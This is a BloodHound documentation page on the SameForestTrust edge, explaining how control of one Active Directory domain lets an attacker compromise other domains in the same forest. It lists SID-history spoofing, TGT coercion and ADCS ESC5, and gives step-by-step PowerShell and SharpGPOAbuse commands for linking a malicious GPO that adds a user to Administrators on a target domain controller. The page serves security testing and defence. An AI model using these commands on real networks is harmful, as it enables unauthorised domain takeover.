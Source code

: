 ---
title: SameForestTrust
description: The SameForestTrust edge represents a trust relationship between two domains within the same AD forest. 
---

<img noZoom src="/assets/enterprise-AND-community-edition-pill-tag.svg" alt="Applies to BloodHound Enterprise and CE"/>

In this relationship, the source node domain has a same-forest (intraforest) trust to the destination node domain, allowing principals (users and computers) from the destination domain to access resources in the source domain.

Because the domains are part of the same forest, they inherently trust each other, granting implicit control over resources across domains.

Abuse Info
----------

An attacker with control over any domain within the forest can escalate their privileges to compromise other domains through multiple methods.

### **Spoof SID history**

An attacker can spoof the SID history of a principal in the target domain, tricking the target domain into treating the attacker as a privileged user.

See the [SpoofSIDHistory](/resources/edges/spoof-sid-histroy) edge for more information.

This attack fails if SID filtering (quarantine) is enabled on the trust relationship in the opposite direction of the attack. The SID filtering blocks SIDs belonging to any other domain than the attacker-controlled domain. However, enabling this setting is rare and generally not recommended.

### **Coerce to TGT**

An attacker can coerce a privileged computer (e.g., a DC) in the target domain to authenticate to an attacker-controlled computer configured with unconstrained delegation. This provides the attacker with a Kerberos TGT for the coerced computer.

See the [CoerceToTGT](/resources/edges/coerce-to-tgt) edge for more information.

The attack fails if SID filtering (quarantine) is enabled, as this prevents TGTs from being sent across the trust boundary. Again, this setting is rarely configured.

### **ADCS ESC5**

The Configuration Naming Context (NC) is a forest-wide partition writable by any DC within the forest. Most Active Directory Certificate Services (ADCS) configurations are stored in the Configuration NC. An attacker can abuse a DC to modify ADCS configurations to enable an ADCS domain escalation opportunity that compromises the entire forest.

**Attack Steps:**

1. Obtain a SYSTEM session on a DC in the attacker-controlled domain
2. Create a certificate template allowing ESC1 abuse
3. Publish the certificate template to an enterprise CA
4. Enroll the certificate as a privileged user in the target domain
5. Authenticate as the privileged user in the target domain using the certificate

See this blog post for further details: [From DA to EA with ESC5](https://posts.specterops.io/from-da-to-ea-with-esc5-f9f045aa105c).

If ADCS is not installed: An attacker can install ADCS and exploit it, as detailed in the blog post: [Escalating from child domain’s admins to enterprise admins in 5 minutes by abusing AD CS, a follow up](https://www.pkisolutions.com/escalating-from-child-domains-admins-to-enterprise-admins-in-5-minutes-by-abusing-ad-cs-a-follow-up/).

### **GPO linked on Site**

AD sites are stored in the forest-wide Configuration NC partition, writable by any DC within the forest. An attacker with SYSTEM access to a DC can link a malicious GPO to the site of any DC in the forest.

**Step 1: Obtain a SYSTEM session on a DC in the attacker-controlled domain**
Use PsExec to start a PowerShell terminal as SYSTEM on the DC:

```powershell
PsExec64.exe -s -i -accepteula powershell
```

**Step 2: Create a GPO**
Use the GroupPolicy module of RSAT to create the new GPO:

```powershell
New-GPO -Name "MyGPO"
```

**Step 3: Add the compromising setting to the GPO**
Use SharpGPOAbuse to add a scheduled task:

```powershell
.\SharpGPOAbuse.exe --AddComputerTask --TaskName "MyTask" --Author "NT AUTHORITY\SYSTEM" --Command "cmd.exe" --Arguments "/c net localgroup Administrators /Add DUMPSTER\tim" --GPOName "MyGPO"
```

**Step 4: Identify a target DC and its site**
Use the ActiveDirectory module of RSAT to query for DCs in the target domain:

```powershell
Get-ADDomainController -server bastion.local | select Name,Site
```

Look up the site DistinguishedName:

```powershell
Get-ADReplicationSite Default-First-Site-Name | select DistinguishedName
```

**Step 5: Set the GPO permissions**

This step is important to avoid applying the GPO to all computers connected to the site. Use the GroupPolicy module of RSAT to modify the permissions such that Authenticated Users can read the object but only the targeted computer applies the GPO settings:

```powershell
$GPO = Get-GPO -Name "MyGPO"
$GPO | Set-GPPermissions -PermissionLevel GpoRead -TargetName "Authenticated Users" -TargetType Group -Replace
$GPO | Set-GPPermissions -PermissionLevel GpoApply -TargetName "BASTION\\bldc01" -TargetType Computer
```

**Step 6: Link the GPO to the site**
Use the GroupPolicy module of RSAT to link the GPO to the site:

```powershell
New-GPLink -Name "MyGPO" -Target "CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=bastion,DC=local" -Server dc01.dumpster.fire
```

Note that you must specify the server to be the DC where you are running the command, as the command defaults to execute the change on a root domain DC where the compromised DC does not have the permissions to link the GPO.

Wait until replication has happened and the GPO has applied on the target DC, and log in with Administrators access on the compromised DC. Replication within the same site happens within 15 seconds but runs on 3 hour schedule by default across sites. GPOs are applied on a 90-120 min interval by default.

Opsec Considerations
----------

There is no OPSEC associated with this edge.

References
----------

This edge is related to the following MITRE ATT&CK tactic and techniques:

* [T1134.005: Access Token Manipulation: SID-History Injection](https://attack.mitre.org/techniques/T1134/005/)
* [T1187: Forced Authentication](https://attack.mitre.org/techniques/T1187/)
* [T1649: Steal or Forge Authentication Certificates](https://attack.mitre.org/techniques/T1649/)
* [T1558: Steal or Forge Kerberos Tickets](https://attack.mitre.org/techniques/T1558/)
* [T1550.003: Use Alternate Authentication Material: Pass the Ticket](https://attack.mitre.org/techniques/T1550/003/)
* [T1484.001: Domain or Tenant Policy Modification: Group Policy Modification](https://attack.mitre.org/techniques/T1484/001/)

Abuse info references:

* [Microsoft AD Trust Technical Documentation](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc755321(v=ws.10))
* [From DA to EA with ESC5](https://posts.specterops.io/from-da-to-ea-with-esc5-f9f045aa105c)
* [Escalating from child domain’s admins to enterprise admins in 5 minutes by abusing AD CS, a follow up](https://www.pkisolutions.com/escalating-from-child-domains-admins-to-enterprise-admins-in-5-minutes-by-abusing-ad-cs-a-follow-up/)
* [SID filter as security boundary between domains? (Part 4)](https://blog.improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-4-bypass-sid-filtering-research)
* [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse)
